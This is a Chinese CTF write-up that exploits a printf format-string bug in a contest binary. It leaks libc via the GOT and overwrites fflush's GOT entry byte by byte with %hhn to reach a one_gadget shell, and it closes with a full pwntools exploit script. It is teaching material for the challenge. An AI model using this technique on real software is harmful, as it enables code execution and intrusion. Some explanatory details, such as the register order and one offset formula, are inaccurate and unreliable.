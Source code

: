 # Write-Up
本次校赛的题目，作为一个PWN手居然没有做出来

而且一直纠结于这个题目，导致错过了求解其他题目的机会，有点小后悔

关键还是在于对这个漏洞利用的不熟练，导致很多时间用来学习和踩坑了，事实证明，**我还是太菜啦**

好了，先查看一下程序的基本思路

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-400h]

  while ( 1 )
  {
    memset(&s, 0, 0x400uLL);
    read(0, &s, 0x400uLL);
    printf(&s, &s);
    fflush(_bss_start);
  }
}
```

可以发现，就是一个`格式化字符串`漏洞，当时我就很高兴啊，这么简单的题目。可是等我开始利用的时候，才发现是多么难利用！

关键点在于：

>1.buf有0x400这么长   
2.每次也是读取0x400个字节(也就是说，单纯的输入不能超出缓存区)
3.同时，由于程序设置是一个无限循环，也就是说没有retn的eip可以劫持(这一点可以在汇编代码中发现，没有retn的指令)
4.每次循环结束，都会利用fflush来把buf清零，所以不能使用上一次输入的内容，每次输入一次有效
5.查看程序保护机制
>>➜  fmt checksec fmt
[*] '/home/pwn/Desktop/pwn/NUSTCTF/fmt/fmt'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments 
>
  没有canary，没有PIE，NX也是关闭的
  NX关闭意味着输入shellcode并且控制rip到shellcode地址处
可是由于程序是死循环状态，以往的冲刷`saved-rip`的方法就不能用了也就需要另辟蹊径

在程序代码中，我们可以发现，在执行完`printf`利用漏洞完后，会执行`fflush`这个函数

`fflush`函数也是库函数，也有PLT表GOT表以及在栈中的LIBC偏移地址，所以我们可以利用这个函数来实现控制程序执行流

本题有两种解法：
>1.shellcode
2.one gadget

我这里先利用 one gadget 的方法，至于 shellcode 的利用，以后有时间再更新（咕咕咕）

## one gadget

one gadget是libc中一段可以起shell的代码，具体libc有不同的偏移地址，而且就算是同一个libc，不同利用时，有些地址的可以，有些地址的就不行，我也不知道为啥，逐个试吧哈哈

>我本地机子的可用 one gadget 偏移地址是 0xF02A4
>fflush函数在libc中的偏移是 0x6D7A0

首先我们要确定libc加载的基址，可以利用格式化字符串漏洞中的任意读功能

> \$s 可以读取一个地址中的数据    
>加以 %n$s 可以控制以参数中第n+1个值为地址
>64位linux系统前6个参数为 rsi rdi rdx rcx r8 r9 往后的参数就放在栈上 %6$s 就可以读取以栈顶数据为地址中的内容
>got表中存放这库函数在栈中的地址

所以我们利用这个任意读功能和got表就可以泄露libc的基址

>%7$s + aaaa + func_got

这里利用`fflush`函数来泄露libc

```python
get_libc_payload = "%7$s".ljust(8, 'a')+p64(e.got['read'])
p.send(get_libc_payload)
read_libc = u64(p.recv(6)+'\x00\x00')
print hex(read_libc)
begin_libc = read_libc-0xF1147
print hex(begin_libc)
```

接着再计算 one gadget 地址

```python
one_gadget_libc = begin_libc+0xF02A4
print hex(one_gadget_libc)
```

于是乎大部分工作就准备好了，~~问题就来了~~

以我某次调试的数据为例：
>0x7fab278897a0  < 这个是fflush的地址 
0x7fab2781c000
0x7fab2790c2a4   < 这个是one gadget地址

我们可以看到，这个地址的低3位是不一样的，也就是说我们需要修改这3位的数据

printf中可以往指定地址修改数据，有以下形式：
> \$n 修改一个字，在64位系统中，就是4个byte
> \$hn 修改半个字，在64位系统中，就是2个byte    
> \$hhn 修改一个字节，在64位系统中，就是1个byte
其中修改的数值为当前已输出的字符数
可以利用 %nc 来输出n个字符

一般情况下，如果利用 $n 来修改，会因为字符数输出太多而报错，所以可以利用 $hhn 来实现单字节单字节修改

而由于这个程序会在每次执行完这个漏洞后调用一次`fflush`，所以这就要求我们才一次漏洞利用机会中修改三个字节

当时我就卡在这里啊，真可恶！

我们可以在一个格式化字符串中构造如下：
> %c %ahhn %c %bhhn %c %chhns

并在abc相应的偏移上放上地址，就可以实现一次性修改三个地址中一个byte的数据

需要注意的是，排在后面的 $hhn 实际写入的值会是前几次 %c 的总和

所以我们要精心构造这个顺序，以使得能写入正确的值

我们可以这样写：
>假设低3位是 abc 这样排序
>那么如果我们先把最小的那一个（假如是b）先写入对应地址中 %bc，地址是 (target+1)
>接着写第二小的那一个（假如是a），到对应地址中 %(a-b)c，地址是(target+2)
>最后写入最大的那一个（是c啦）到对应地址 %(c-a-b)c，地址是(target)

这样就能正确写入 one gadget 的地址，然后执行`fflush`时就可以跳到对应地址去执行shell了

###完整EXP:
```python
from pwn import *
context.log_level = 'debug'
p = process('./fmt')
e = ELF('./fmt')
p.send('hello')
p.recv()
get_libc_payload = "%7$s".ljust(8, 'a')+p64(e.got['fflush'])
p.send(get_libc_payload)
read_libc = u64(p.recv(6)+'\x00\x00')
print hex(read_libc)
begin_libc = read_libc-0x6D7A0
print hex(begin_libc)
one_gadget_libc = begin_libc+0xF02A4
print hex(one_gadget_libc)
a1 = (one_gadget_libc & 0xff0000) >> 16
a2 = (one_gadget_libc & 0xff00) >> 8
a3 = one_gadget_libc & 0xff
print hex(a1)+hex(a2)+hex(a3)
point1 = [2, a1]
point2 = [1, a2]
point3 = [0, a3]


def swap(p1, p2):
    for i in range(2):
        t = p1[i]
        p1[i] = p2[i]
        p2[i] = t


if a1 > a2:
    swap(point1, point2)
if a1 > a3:
    swap(point1, point3)
if a2 > a3:
    swap(point2, point3)
print point1+point2+point3

point2[1] = point2[1]-point1[1]
point3[1] = point3[1]-point2[1]-point1[1]
print point1+point2+point3

write_got_payload = '%'+str(point1[1])+'c'+'%12$hhn'
write_got_payload += '%'+str(point2[1])+'c'+'%13$hhn'
write_got_payload += '%'+str(point3[1])+'c'+'%14$hhn'
write_got_payload = write_got_payload.ljust(48, 'a')
write_got_payload += p64(e.got['fflush']+point1[0])
write_got_payload += p64(e.got['fflush']+point2[0])
write_got_payload += p64(e.got['fflush']+point3[0])

p.send(write_got_payload)
p.interactive()
```